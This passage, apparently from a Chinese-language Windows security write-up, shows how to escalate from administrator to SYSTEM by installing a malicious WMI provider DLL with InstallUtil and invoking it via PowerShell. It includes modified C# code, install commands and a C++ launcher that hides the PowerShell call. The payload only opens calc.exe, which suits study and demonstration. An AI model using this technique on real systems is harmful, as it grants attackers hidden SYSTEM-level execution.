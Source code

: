 0x05 from admin to system
=========================

* * *

我使用的方法为：EvilNetConnectionWMIProvider

地址为：[https://github.com/jaredcatkinson/EvilNetConnectionWMIProvider](https://github.com/jaredcatkinson/EvilNetConnectionWMIProvider)

原工程为以system权限执行cmd，这里简单修改一下把内容替换为启动calc.exe

EvilNetConnectionWMIProvider.cs中的RunPS作如下修改：

```
    public static string RunPS(string cmd)
    {
        System.Diagnostics.Process.Start("c:\\windows\\system32\\calc.exe");


        return cmd;
    }

```

编译生成EvilNetConnectionWMIProvider.dll

安装：  
( 需要管理员权限 )

```
C:\Windows\Microsoft.NET\Framework\v2.0.50727\InstallUtil.exe /i EvilNetConnectionWMIProvider.dll

```

卸载:  
( 需要管理员权限 )

```
C:\Windows\Microsoft.NET\Framework\v2.0.50727\InstallUtil.exe /u EvilNetConnectionWMIProvider.dll

```

**注：**  
卸载存在bug，再次注册使用需要修改AssemblyInfo.cs中的assembly: Guid

调用wmi控件：  
( 需要管理员权限 )

```
powershell Invoke-WMIMethod -Class Win32_NetConnection -Name RunPs -ArgumentList "whoami", $NULL

```

会打开一个system权限的calc.exe

因此0x04中完整的c++程序代码如下：

```
#include "Windows.h"
int APIENTRY wWinMain(_In_ HINSTANCE hInstance,
    _In_opt_ HINSTANCE hPrevInstance,
    _In_ LPWSTR    lpCmdLine,
    _In_ int       nCmdShow)
{
    WinExec("regedit", SW_SHOW);
    WinExec("cmd /c powershell.exe Invoke-WMIMethod -Class Win32_NetConnection -Name RunPs -ArgumentList ""whoami"", $NULL", SW_HIDE);
    return 0;
}

```
